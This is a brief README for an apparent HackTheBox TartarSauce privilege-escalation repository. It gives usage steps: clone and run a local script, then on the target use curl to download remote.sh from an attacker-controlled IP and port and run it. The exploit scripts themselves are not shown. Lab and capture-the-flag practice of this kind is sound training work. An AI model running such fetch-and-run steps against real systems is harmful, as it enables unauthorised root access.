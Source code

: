 # HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port inside scripts.

- local host
```
git clone https://github.com/zhsh9/HTB-TartarSauce-PrivEsca.git --depth 1
cd HTB-TartarSauce-PrivEsca
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
./remote.sh
```
